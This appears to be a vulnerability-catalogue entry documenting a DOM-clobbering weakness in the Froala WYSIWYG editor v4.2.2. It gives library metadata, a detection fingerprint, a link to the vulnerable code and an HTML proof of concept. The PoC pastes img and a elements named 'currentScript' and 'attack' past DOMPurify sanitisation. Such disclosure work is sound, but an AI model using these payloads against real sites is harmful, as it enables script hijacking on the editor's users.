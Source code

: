 ## Froala

### Meta

+ Library: Froala
+ Version: v4.2.2
+ Stars: 5.3K
+ Fingerprint: `document.getElementsByClassName('fr-box').length > 0`
+ Input: Copy&Paste
+ Sanitizer: DOMPurify
+ Capability: Any Tag & Any `name` attributes
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/froala/wysiwyg-editor/tree/master/js/plugins

### Vulnerable Code Snippet

https://github.com/froala/wysiwyg-editor/blob/3b01fafe167d2dd8adf3c124c377930db13c90fc/html/paste/attrs.html#L42

### PoC 

```html
<!--Library-->
<link href="https://cdn.jsdelivr.net/npm/froala-editor@latest/css/froala_editor.pkgd.min.css" rel="stylesheet" type="text/css" />

<textarea></textarea>

<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/froala-editor@latest/js/froala_editor.pkgd.min.js"></script>

<script>
  new FroalaEditor('textarea');
</script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and check the editor in the debugging console.</p>
<!--Payload-->
```